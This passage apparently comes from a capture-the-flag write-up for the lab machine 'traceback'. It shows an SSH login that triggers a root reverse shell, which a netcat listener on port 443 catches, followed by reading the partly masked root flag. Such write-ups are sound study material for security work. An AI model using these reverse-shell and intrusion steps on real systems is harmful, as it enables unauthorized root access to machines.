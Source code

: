 ```bash
root@darkness:~# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

```

Logging in via ssh, the prompt hangs after printing the initial text.

Checking on our listener, we now have a shell as root and can read root.txt.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.181.
Ncat: Connection from 10.10.10.181:59530.
bash: cannot set terminal process group (1852): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/#
```

```bash
root@traceback:/root# cat root.txt 
43de0***************************
```

